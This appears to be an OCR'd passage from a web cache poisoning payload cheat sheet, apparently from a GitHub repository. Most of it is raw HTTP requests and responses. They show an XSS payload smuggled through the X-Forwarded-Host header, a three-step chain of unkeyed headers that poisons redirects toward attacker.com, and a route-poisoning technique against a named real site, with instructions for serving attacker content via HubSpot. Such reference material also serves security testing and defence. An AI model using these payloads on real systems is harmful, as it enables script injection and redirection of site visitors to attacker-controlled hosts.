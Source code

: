 ```
GET / HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 (<snip> Firefox/60.0)
X-Forwarded-Host: a"><iframe onload=alert(1)>
```
The response is
```
HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>
```
4. Chaining Unkeyed Inputs 
- First step
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: xyz
```
The response is
```
HTTP/1.1 200 OK
Set-Cookie: locale=en; domain=xyz
```
- Second step
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Scheme: nothttps
```
The response is
```
HTTP/1.1 301 Moved Permanently
Location: https://redacted.net
```
- Third step
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: attacker.com
X-Forwarded-Scheme: nothttps
```
The response is
```
HTTP/1.1 301 Moved Permanently
Location: https://attacker.com/en
```

5. Route Poisoning
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Server: evil
```
The response is
```
HTTP/1.1 404 Not Found
CF-Cache-Status: MISS
...
<title>HubSpot - Page not found</title>
<p>The domain canary does not exist in our system.</p>
```
To exploit this, we
need to go to hubspot.com, register ourselves as a HubSpot client, place a payload on our HubSpot page, and
then finally trick HubSpot into serving this response on goodhire.com